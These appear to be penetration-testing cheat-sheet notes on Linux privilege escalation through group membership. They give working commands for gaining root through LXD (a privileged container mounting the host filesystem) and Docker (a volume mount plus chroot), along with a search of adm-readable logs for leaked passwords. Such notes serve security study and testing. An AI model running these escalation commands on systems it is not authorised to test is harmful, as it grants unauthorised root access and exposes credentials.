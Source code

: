 ### LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.
```bash
devops@NIX02:~$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

```bash
unzip alpine.zip 
```

```bash
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
```

### Docker
```bash
docker ps
docker run -v /:/mnt --rm -it bash chroot /mnt sh
docker-inspect {{.Config}} <id>
```

### Disk
[This article](https://www.hackingarticles.in/disk-group-privilege-escalation/) :D

### ADM
The adm group is used in Linux for system monitoring tasks. Members of this group can read many log files in `/var/log`, and can use xconsole. Other users cron jobs can be viewed

This could be exploited as confidential information such as user passwords can sometimes end up in certain application or system logs.

```bash
find /var/log/ -group adm
```